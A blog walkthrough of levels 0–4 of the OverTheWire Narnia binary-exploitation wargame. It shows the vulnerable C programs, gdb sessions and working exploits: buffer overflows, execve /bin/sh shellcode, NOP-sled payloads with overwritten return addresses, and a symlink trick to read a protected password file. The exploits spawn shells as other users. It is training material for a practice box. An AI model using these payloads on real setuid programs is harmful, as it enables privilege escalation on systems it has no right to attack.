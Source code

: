 Solving Narnia Part 1
#####################

:title: Solving Narnia Part 1
:date: 2015-04-08T00
:modified: 2015-04-08 12
:tags:


Next up we take on `Narnia <http://overthewire.org/wargames/narnia/>`_. This is a 
binary exploit centered wargame, so fire up your debuggers and let's smash those
stacks. For levels 5, 6, 7, and 8, see `part 2 <http://unlogic.co.uk/2015/04/13/solving-narnia-part-2/>`_

All levels are in :code:`/narnia` and both the binary and the source are provided.

I've not included the passwords here, so you'll have to work through
the exercises yourself (or find them elsewhere :))

Level 00 ##
-----------

.. code:: c

    #include <stdio.h>
    #include <stdlib.h>

    int main(){
            long val=0x41414141;
            char buf[20];

            printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
            printf("Here is your chance: ");
            scanf("%24s",&buf);

            printf("buf: %s\n",buf);
            printf("val: 0x%08x\n",val);

            if(val==0xdeadbeef)
                    system("/bin/sh");
            else {
                    printf("WAY OFF!!!!\n");
                    exit(1);
            }

            return 0;
    }

Lines 8 and 9 tell us what we need to do. So knowing how variable allocation
on the stack works, we can exploit the setup on lines 5 and 6. :code:`buf` is a 
fixed size and is allocated *after* :code:`val`. Therefore it sits above :code:`val` on
the stack. As there is no `ASLR <https://en.wikipedia.org/wiki/Address_space_layout_randomization>`_
we should be able to write over the end of :code:`buf` and overwrite what is in memory
at :code:`val`'s location.

So let's try it

.. code:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*50" | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCCCCC
	val: 0x43434343
	WAY OFF!!!!

Right, we can confirm that we are able to change the value of :code:`val`. Let's
tread a bit more carefully and try to see if we can do it more accurately

.. code:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*20 + 'BBBB'" | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCBBBB
	val: 0x42424242
	WAY OFF!!!!

So there is no space between :code:`val` and :code:`buf`, therefore 20 characters plus a 
further 4 is enough to change val. Let's write in the correct value, reversed of
course because of the endian notation

.. code:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*20 + '\xef\xbe\xad\xde'" | ./narnia0
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
	val: 0xdeadbeef
	narnia0@melinda:/narnia$

We did it.... but wait, where's the shell? It's closed, that's where it is. We
need to keep it open. The trick is to append the :code:`cat` command to the input

.. code:: console

	narnia0@melinda:/narnia$ (python -c "print 'C'*20 + '\xef\xbe\xad\xde'"; cat) | ./narnia0
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
	val: 0xdeadbeef
	id
	uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
	whoami
	narnia1
	cat /etc/narnia_pass/narnia1
	[password]

Level 01 ##
-----------

.. code:: c

    #include <stdio.h>

    int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){    
            printf("Give me something to execute at the env-variable EGG\n");
            exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
    }

So here we need to set an environment variable named :code:`EGG` to something
we want executed. We can't just pass :code:`/bin/bash` as it's going to call whatever
we give it as a function. Ideally we want a shell, so what we need in this case
is the shellcode to do just that.

.. code:: console

	narnia1@melinda:/narnia$ export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
	narnia1@melinda:/narnia$ ./narnia1
	Trying to execute EGG!
	$ whoami
	narnia2
	$ cat /etc/narnia_pass/narnia2
	[password]

Level 02 ##
-----------

.. code:: c

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>

    int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
            printf("Usage: %s argument\n", argv[0]);
            exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
    }

The biggest clues here are lines 6 and 12. Copying user supplied data
into a fixed sized array without any bound checking is always asking for 
trouble. :code:`narnia2` binary also runs as setuid narnia3, which leads us to believe
we will be able to control the stack and get it to execute a payload of our 
choosing. Of course this will be a shellcode to drop us into a shell.

First we need to work out how much data is needed to overwrite :code:`EIP`. We can
do this by trial and error, or we can use a pattern generator. I am going to
use my `pattern generator <https://github.com/Svenito/exploit-pattern>`_ instead
of metasploit's one. I'll create a payload big enugh to overflow the 
buffer and then check the value of :code:`EIP`. Pasting that back into the pattern
generator will tell us at what location in the pattern the string occurs.

.. code:: console

	local $] ./pattern.py 150
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
	Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

.. code:: console

	narnia2@melinda:/narnia$ gdb -q narnia2
	Reading symbols from narnia2...(no debugging symbols found)...done.
	(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
	Starting program: /games/narnia/narnia2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
	
	Program received signal SIGSEGV, Segmentation fault.
	0x37654136 in ?? ()
	(gdb) info reg
	eax            0x0	0
	ecx            0x0	0
	edx            0xf7fcb898	-134432616
	ebx            0xf7fca000	-134438912
	esp            0xffffd640	0xffffd640
	ebp            0x65413565	0x65413565
	esi            0x0	0
	edi            0x0	0
	eip            0x37654136	0x37654136
	eflags         0x10282	[ SF IF RF ]
	cs             0x23	35
	ss             0x2b	43
	ds             0x2b	43
	es             0x2b	43
	fs             0x0	0
	gs             0x63	99

.. code:: console

	local $] ./pattern.py 0x37654136
	Pattern 0x37654136 first occurrence at position 140 in pattern.

We can control :code:`EIP` with whatever we put at position 140 of our payload. But
what do we put there? Well for that we need to figure out where the rest of our
data is going. Using a known payload let's see where our input ends up:

.. code:: console

	(gdb) run $(python -c "print 'a' * 140 + 'b' * 4")
	Starting program: /games/narnia/narnia2 $(python -c "print 'a' * 140 + 'b' * 4")
	
	Program received signal SIGSEGV, Segmentation fault.
	0x62626262 in ?? ()
	(gdb) x/200x $esp
	(gdb) x/200x $esp
	0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea
	0xffffd660:	0x00000002	0xffffd6e4	0xffffd684	0x08049768
	0xffffd670:	0x0804821c	0xf7fca000	0x00000000	0x00000000
	0xffffd680:	0x00000000	0xed18585e	0xd520bc4e	0x00000000
	0xffffd690:	0x00000000	0x00000000	0x00000002	0x08048360
	0xffffd6a0:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
	0xffffd6b0:	0x00000002	0x08048360	0x00000000	0x08048381
	0xffffd6c0:	0x0804845d	0x00000002	0xffffd6e4	0x080484d0
	0xffffd6d0:	0x08048540	0xf7feb180	0xffffd6dc	0x0000001c
	0xffffd6e0:	0x00000002	0xffffd812	0xffffd828	0x00000000
	0xffffd6f0:	0xffffd8b9	0xffffd8cd	0xffffd8dd	0xffffd8f0
	0xffffd700:	0xffffd913	0xffffd927	0xffffd930	0xffffd93d
	0xffffd710:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
	0xffffd720:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
	0xffffd730:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
	0xffffd740:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
	0xffffd750:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
	0xffffd760:	0x00000010	0x1f898b75	0x00000006	0x00001000
	0xffffd770:	0x00000011	0x00000064	0x00000003	0x08048034
	0xffffd780:	0x00000004	0x00000020	0x00000005	0x00000008
	0xffffd790:	0x00000007	0xf7fdc000	0x00000008	0x00000000
	0xffffd7a0:	0x00000009	0x08048360	0x0000000b	0x000036b2
	0xffffd7b0:	0x0000000c	0x000036b2	0x0000000d	0x000036b2
	0xffffd7c0:	0x0000000e	0x000036b2	0x00000017	0x00000000
	0xffffd7d0:	0x00000019	0xffffd7fb	0x0000001f	0xffffdfe2
	0xffffd7e0:	0x0000000f	0xffffd80b	0x00000000	0x00000000
	0xffffd7f0:	0x00000000	0x00000000	0xe8000000	0x7c03ba19
	0xffffd800:	0x2bd0895a	0x3866226d	0x69ad5957	0x00363836
	0xffffd810:	0x672f0000	0x73656d61	0x72616e2f	0x2f61696e
	0xffffd820:	0x6e72616e	0x00326169	0x61616161	0x61616161
	0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8b0:	0x61616161	0x62626262	0x47445800	0x5345535f
	0xffffd8c0:	0x4e4f4953	0x3d44495f	0x30333035	0x45485300
	0xffffd8d0:	0x2f3d4c4c	0x2f6e6962	0x68736162	0x52455400
	0xffffd8e0:	0x78723d4d	0x322d7476	0x6f633635	0x00726f6c
	0xffffd8f0:	0x5f485353	0x45494c43	0x323d544e	0x322e3231
	0xffffd900:	0x37352e33	0x3136312e	0x35333320	0x34203932
	0xffffd910:	0x53003334	0x545f4853	0x2f3d5954	0x2f766564
	0xffffd920:	0x2f737470	0x4c003033	0x4c415f43	0x00433d4c
	0xffffd930:	0x52455355	0x72616e3d	0x3261696e	0x5f534c00
	0xffffd940:	0x4f4c4f43	0x723d5352	0x3a303d73	0x303d6964
	0xffffd950:	0x34333b31	0x3d6e6c3a	0x333b3130	0x686d3a36
	0xffffd960:	0x3a30303d	0x343d6970	0x33333b30	0x3d6f733a

We see our payload start at :code:`0xffffd828` with the last 4 bytes at :code:`0xffffd8b4`

The buffer gives us 128 bytes to play with. Our shellcode is 25 bytes, so we'll pad the
start with a `nop sled <https://en.wikipedia.org/wiki/NOP_slide>`_ to adjust for
the memory offset introduced by :code:`gdb`. Then set the :code:`EIP` to somewhere in the middle
of the sled

.. code:: console

	narnia2@melinda:/narnia$ ./narnia2 `python -c "print '\x90'*115 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x60\xd8\xff\xff'"`
	$ whoami
	narnia3
	$ cat /etc/narnia_pass/narnia3
	[password]

Level 03 ##
-----------

.. code:: c

    #include <stdio.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <unistd.h>
    #include <stdlib.h>
    #include <string.h> 

    int main(int argc, char **argv){
     
            int  ifd,  ofd;
            char ofile[16] = "/dev/null";
            char ifile[32];
            char buf[32];
     
            if(argc != 2){
                    printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                    exit(-1);
            }
     
            /* open files */
            strcpy(ifile, argv[1]);
            if((ofd = open(ofile,O_RDWR)) < 0 ){
                    printf("error opening %s\n", ofile);
                    exit(-1);
            }
            if((ifd = open(ifile, O_RDONLY)) < 0 ){
                    printf("error opening %s\n", ifile);
                    exit(-1);
            }
     
            /* copy from file1 to file2 */
            read(ifd, buf, sizeof(buf)-1);
            write(ofd,buf, sizeof(buf)-1);
            printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
     
            /* close 'em */
            close(ifd);
            close(ofd);
     
            exit(1);
    }


At first glance this looks a bit more complicated. However it is just another
buffer overflow (line 13 and 22). This time however we don't control the stack, 
we control where the file gets written to. :code:`/dev/null` is not a useful place
for data, and we want the contents of :code:`/etc/narnia_pass/narnia4`. As :code:`narnia3` runs 
setuid narnia4, it can do that for us.

First we determine that we need 32 characters to overflow the buffer. Then anything
beyond that will get written to the ofile. So the plan is to to create a symlink to
:code:`narnia4` that is 32 characters long, and then write that to the target. The issue here
is that the source path's last 16 characters need to be the same as the target.
So to do this I created the following directory and symlink:

.. code:: console

	narnia3@melinda:/narnia$ mkdir -p /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp
	narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4

Now when we pass that to :code:`narnia3`:

.. code:: console

	narnia3@melinda:/narnia$ ./narnia3 `python -c "print '/tmp/' + 'x'*27 + '/tmp/narn4'"` 
	copied contents of /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4 to a safer place... (/tmp/narn4)
	narnia3@melinda:/narnia$ cat /tmp/narn4 
	[password]

It's a little odd, but I hope you understand what happened. The last part of the 
first path has to be a valid path, so that it can be written to. That's why we have 
the double :code:`/tmp` setup.

Level 04 ##
-----------

.. code:: c

    #include <string.h>
    #include <stdlib.h>
    #include <stdio.h>
    #include <ctype.h>

    extern char **environ;

    int main(int argc,char **argv){
        int i;
        char buffer[256];

        for(i = 0; environ[i] != NULL; i++)
            memset(environ[i], '\0', strlen(environ[i]));

        if(argc>1)
            strcpy(buffer,argv[1]);

        return 0;
    }

MOAR OVERFLOWS. This time you'll notice something at line 6. What this does
is `store the user environment <http://man7.org/linux/man-pages/man7/environ.7.html>`_.
This then get zerod out inside :code:`main` to prevent us from storing any shellcode
in environment variables. However we might still be able to write :code:`EIP`, so using the
trusty pattern generator from before

.. code:: console

	local $] ./pattern.py 300
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7
	Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5
	Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
	Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

.. code:: console

	narnia4@melinda:/narnia$ gdb -q ./narnia4 
	Reading symbols from ./narnia4...(no debugging symbols found)...done.
	(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
	Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
	Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
	Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
	Starting program: /games/narnia/narnia4 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
	Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4
	Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3
	Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
	
	Program received signal SIGSEGV, Segmentation fault.
	0x316a4130 in ?? ()

.. code:: console

	local $] ./pattern.py 0x316a4130
	Pattern 0x316a4130 first occurrence at position 272 in pattern.

This tells us we have 272 bytes to play with. Plenty of space to construct
a nopsled and shellcode payload. Let's find out what we need to write into
:code:`EIP`.

.. code:: console

	(gdb) r $(python -c "print 'a'*272 + 'bbbb'")
	Starting program: /games/narnia/narnia4 $(python -c "print 'a'*272 + 'bbbb'")
	
	Program received signal SIGSEGV, Segmentation fault.
	0x62626262 in ?? ()
	(gdb) x/200x $esp
	0xffffd5c0:	0x00000000	0xffffd654	0xffffd660	0xf7feacea
	0xffffd5d0:	0x00000002	0xffffd654	0xffffd5f4	0x080497cc
	0xffffd5e0:	0x0804825c	0xf7fca000	0x00000000	0x00000000
	0xffffd5f0:	0x00000000	0x7cc8a421	0x44f76031	0x00000000
	0xffffd600:	0x00000000	0x00000000	0x00000002	0x080483b0
	0xffffd610:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
	0xffffd620:	0x00000002	0x080483b0	0x00000000	0x080483d1
	0xffffd630:	0x080484ad	0x00000002	0xffffd654	0x08048550
	0xffffd640:	0x080485c0	0xf7feb180	0xffffd64c	0x0000001c
	0xffffd650:	0x00000002	0xffffd78f	0xffffd7a5	0x00000000
	0xffffd660:	0xffffd8ba	0xffffd8ce	0xffffd8de	0xffffd8f1
	0xffffd670:	0xffffd914	0xffffd927	0xffffd930	0xffffd93d
	0xffffd680:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
	0xffffd690:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
	0xffffd6a0:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
	0xffffd6b0:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
	0xffffd6c0:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
	0xffffd6d0:	0x00000010	0x1f898b75	0x00000006	0x00001000
	0xffffd6e0:	0x00000011	0x00000064	0x00000003	0x08048034
	0xffffd6f0:	0x00000004	0x00000020	0x00000005	0x00000008
	0xffffd700:	0x00000007	0xf7fdc000	0x00000008	0x00000000
	0xffffd710:	0x00000009	0x080483b0	0x0000000b	0x000036b4
	0xffffd720:	0x0000000c	0x000036b4	0x0000000d	0x000036b4
	0xffffd730:	0x0000000e	0x000036b4	0x00000017	0x00000000
	0xffffd740:	0x00000019	0xffffd76b	0x0000001f	0xffffdfe2
	0xffffd750:	0x0000000f	0xffffd77b	0x00000000	0x00000000
	0xffffd760:	0x00000000	0x00000000	0x9e000000	0x9213cb6c
	0xffffd770:	0x8eef41b1	0xe0574cc7	0x69a73659	0x00363836
	0xffffd780:	0x00000000	0x00000000	0x00000000	0x2f000000
	0xffffd790:	0x656d6167	0x616e2f73	0x61696e72	0x72616e2f
	0xffffd7a0:	0x3461696e	0x61616100	0x61616161	0x61616161
	0xffffd7b0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7c0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7d0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7e0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7f0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd800:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd810:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd820:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8b0:	0x61616161	0x62626261	0x00000062	0x00000000
	0xffffd8c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd8d0:	0x00000000	0x00000000	0x00000000	0x00000000

Our input starts at around *0xffffd7a8* so let's get going writing our payload.
Create a nopsled that is *272 - 25* bytes long, follow that with the
the same shellcode as before, and finish with an address that sits comfortably
in the sled. You normally need to play with the address a bit, as the offsets
inside *gdb* are a bit different.

.. code:: console

	narnia4@melinda:/narnia$ ./narnia4 `python -c "print '\x90'*(272-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x30\xd8\xff\xff'"`
	$ whoami
	narnia5
	$ cat /etc/narnia_pass/narnia5
	[password]
